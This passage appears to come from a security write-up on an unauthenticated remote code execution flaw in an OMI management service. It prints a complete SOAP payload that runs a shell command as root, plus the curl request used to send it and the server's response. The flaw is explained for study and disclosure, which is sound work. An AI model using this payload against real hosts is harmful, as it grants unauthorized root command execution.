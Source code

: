 ### Remote Code Execution

The vulnerability is pretty straightforward, it allows passing a simple SOAP message to the service and without setting any authorization headers it will execute a given command as the root user. The soap message to execute the `id` command looks as follows;

```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>id</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
```

Save this to a file named `omi-soap-payload.xml` so that we can post this to the OMI service with curl:

```sh
$ curl -i -XPOST -H "Content-Type: application/soap+xml;charset=UTF-8" -d @omi-soap-payload.xml --insecure https://192.168.122.78:5986/wsman

HTTP/1.1 200 OK
Content-Length: 1465
Connection: Keep-Alive
Content-Type: application/soap+xml;charset=UTF-8

```